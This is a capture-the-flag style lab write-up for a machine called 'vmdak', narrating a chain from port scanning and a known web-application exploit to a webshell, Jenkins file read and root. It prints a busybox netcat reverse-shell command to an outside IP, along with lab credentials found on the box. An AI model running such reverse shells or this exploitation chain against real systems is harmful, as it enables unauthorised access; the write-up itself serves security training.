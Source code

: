 # vmdak

i start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

The port 9443 says it's http but there is a SSL problem so we need to add the domain in etc hosts and request the website using https and then we see this:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

I look at some known exploits for this framework, click on admin dashboard and see this:

{% embed url="https://www.exploit-db.com/exploits/52017" %}

so i try it out:

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

and i manage to get in:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

the box is very laggy and i have to wait 5min + for one request so i will come back later

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok so after looking for fast5 exploit me saw that this was called Prison Management System so i looked up known exploits that could lead to code execution and saw this article:

{% embed url="https://sploitus.com/exploit?id=PACKETSTORM:179737" %}

So i go and create a new user:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i capture the post request:

<figure><img src="../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

and we got ourselves a webshell:

<figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

and we manage to get a reverse shell with a busybox nc command:

```
busybox nc 192.168.45.245 80 -e sh
```

I try plenty of privesc but don't find anything so i suppose i need to pivot to user vmdak and start looking for credentials and find something in the database folder:

<figure><img src="../../../.gitbook/assets/image (262).png" alt=""><figcaption></figcaption></figure>

```
root:sqlCr3ds3xp0seD
```

but it's not the password of root so i guess that i need to enumerate some sort of mysql service?

```
mysql -u root -p
```

and then we find this password:

<figure><img src="../../../.gitbook/assets/image (263).png" alt=""><figcaption><p>RonnyCache001</p></figcaption></figure>

The only user is vmdak and root so i'll try for those users:

<figure><img src="../../../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

So it's the password of user vmdak, nice

ran some linpeas and pspy and found nothing but this seemed interesting:

<figure><img src="../../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

Ok so since i have ssh access to user vmdak i can redirect the jenkins server on my local port :

```
ssh -L 9999:127.0.0.1:8080 vmdak@192.168.212.103
```

So if i visit my [http://127.0.0.1:9999](http://127.0.0.1:9999) i'll see the jenkins server:

<figure><img src="../../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

So i tried accessing this CLI but failed so i looked at some file read vulns for jenkins:&#x20;

{% embed url="https://medium.verylazytech.com/cve-2024-23897-jenkins-file-read-vulnerability-poc-6a1dfdbfd6f2" %}

<figure><img src="../../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

and i manage to connect:&#x20;

<figure><img src="../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins" %}

So i create a random job that executes a reverse shell once it's build:

<figure><img src="../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

i save and build and get my shell:

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>
